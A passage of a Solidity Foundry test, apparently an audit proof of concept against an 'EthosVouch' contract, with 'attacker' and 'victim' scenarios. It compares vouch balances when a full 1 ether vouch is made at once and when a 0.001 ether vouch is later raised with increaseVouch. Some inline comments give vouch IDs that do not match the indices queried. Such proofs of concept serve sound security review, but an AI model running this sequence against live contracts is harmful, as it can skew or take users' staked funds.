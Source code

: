 ```solidity
            "Attacker Diff Amount  : ",
            fullVouchAttackerBalance - minVouchAttackerBalance
        );
        console.log("");
    }

    function fullVouchAtStart()
        public
        returns (uint256 finalAttackerBalance, uint256 finalVictimBalance)
    {
        vm.prank(_carl);
        target.vouchByAddress{value: 1 ether}(
            _alice,
            "Great Person",
            "Very Cool"
        );

        (, , , , , , finalAttackerBalance, , , ) = target.vouches(0); // VouchId 2 - Carl full vouch for alice
        (, , , , , , finalVictimBalance, , , ) = target.vouches(2); // VouchID 0 - Diane initial for alice
    }

    function minVouchAtStart()
        public
        returns (uint256 finalAttackerBalance, uint256 finalVictimBalance)
    {
        vm.startPrank(_carl);
        target.vouchByAddress{value: 0.001 ether}(
            _bob,
            "Great Person",
            "Very Cool"
        );

        target.increaseVouch{value: 1 ether - 0.001 ether}(3);

        vm.stopPrank();

        (, , , , , , finalAttackerBalance, , , ) = target.vouches(1); // VouchID 1 - Diane initial for bob
        (, , , , , , finalVictimBalance, , , ) = target.vouches(3); // VouchID 3 - Carl small vouch for bob
    }

    function withoutInterference() public returns (uint256 finalBalance) {
        vm.prank(_carl);
        target.vouchByAddress{value: 1 ether}(_diane, "Not Very Nice", "Bad");
        (, , , , , , finalBalance, , , ) = target.vouches(4);
    }
}

interface IEthosVouch {
    struct Vouch {
        bool archived;
        bool unhealthy;
        uint256 authorProfileId;
        address authorAddress;
        uint256 vouchId;
        uint256 subjectProfileId;
        uint256 balance;
        string comment;
        string metadata;
        ActivityCheckpoints activityCheckpoints;
```
